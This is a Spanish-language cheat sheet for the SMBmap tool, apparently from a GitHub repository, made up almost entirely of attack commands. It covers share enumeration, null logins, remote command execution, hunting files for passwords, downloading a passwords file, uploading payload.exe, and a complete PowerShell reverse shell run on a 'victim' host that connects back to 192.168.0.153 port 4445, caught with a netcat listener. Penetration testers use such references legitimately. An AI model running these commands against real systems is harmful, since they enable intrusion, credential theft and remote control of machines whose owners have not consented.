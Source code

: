 # SMBmap Cheat Sheet

#### Enumerar en un Host
```
smbmap -H <IP-Address>
```

#### Enumerar un Host colocando un usuario null
```
smbmap -u 'null' -H <IP-Address>
```

#### Comprueba si hay recursos compartidos en el host especificado con el nombre de usuario y la contraseña proporcionados
```
smbmap -u <Username> -p <Password> -H <IP-Address>
```

#### Ejecución de comandos
```
smbmap -u <Username> -p <Password> -d <Domain> -x 'net group "Domain Admins" /domain' -H <IP-Address>
```

#### Listar un recurso no recursivo (ls)
```
smbmap -u <Username> -p <Password> -H <IP-Address> -r 'C$\Users'
```

#### Listar un recurso de manera recursiva
```
smbmap -u <Username> -p <Password> -H <IP-Address> -R 'C$\Users'
```

#### Listado de unidades
```
smbmap -u <Username> -p <Password> -H <IP-Address> -L
```

#### Buscar algun contenido en archivos
```
smbmap -u <Username> -p <Password> -H <IP-Address> -F password --search-path 'C:\Users\wingus\AppData\Roaming'
```

#### Descargar un archivo
```
smbmap -u <Username> -p <Password> -H <IP-Address> --download 'C$\temp\passwords.txt'
```

#### Cargar un archivo
```
smbmap -u <Username> -p <Password> -H <IP-Address> --upload '/tmp/payload.exe C$\temp\payload.exe'
```

#### Eliminar un archivo remoto
```
smbmap -u <Username> -p <Password> -H <IP-Address> --delete 'C$\temp\msf.exe'
```

#### Generar una shell inversa
+ Para la victima
```
smbmap -u <Username> -p <Password> -d <Domain> -H <IP-Address> -x 'powershell -command "function ReverseShellClean {if ($c.Connected -eq $true) {$c.Close()}; if ($p.ExitCode -ne $null) {$p.Close()}; exit; };$a=""""192.168.0.153""""; $port=""""4445"""";$c=New-Object system.net.sockets.tcpclient;$c.connect($a,$port) ;$s=$c.GetStream();$nb=New-Object System.Byte[] $c.ReceiveBufferSize  ;$p=New-Object System.Diagnostics.Process  ;$p.StartInfo.FileName=""""cmd.exe""""  ;$p.StartInfo.RedirectStandardInput=1  ;$p.StartInfo.RedirectStandardOutput=1;$p.StartInfo.UseShellExecute=0  ;$p.Start()  ;$is=$p.StandardInput  ;$os=$p.StandardOutput  ;Start-Sleep 1  ;$e=new-object System.Text.AsciiEncoding  ;while($os.Peek() -ne -1){$out += $e.GetString($os.Read())} $s.Write($e.GetBytes($out),0,$out.Length)  ;$out=$null;$done=$false;while (-not $done) {if ($c.Connected -ne $true) {cleanup} $pos=0;$i=1; while (($i -gt 0) -and ($pos -lt $nb.Length)) { $read=$s.Read($nb,$pos,$nb.Length - $pos); $pos+=$read;if ($pos -and ($nb[0..$($pos-1)] -contains 10)) {break}}  if ($pos -gt 0){ $string=$e.GetString($nb,0,$pos); $is.write($string); start-sleep 1; if ($p.ExitCode -ne $null) {ReverseShellClean} else {  $out=$e.GetString($os.Read());while($os.Peek() -ne -1){ $out += $e.GetString($os.Read());if ($out -eq $string) {$out="""" """"}}  $s.Write($e.GetBytes($out),0,$out.length); $out=$null; $string=$null}} else {ReverseShellClean}};"'
```
+ En el atacante
```
nc -l 4445
```

---

[:arrow_left: Regresar](https://github.com/m4lal0/cheatsheets)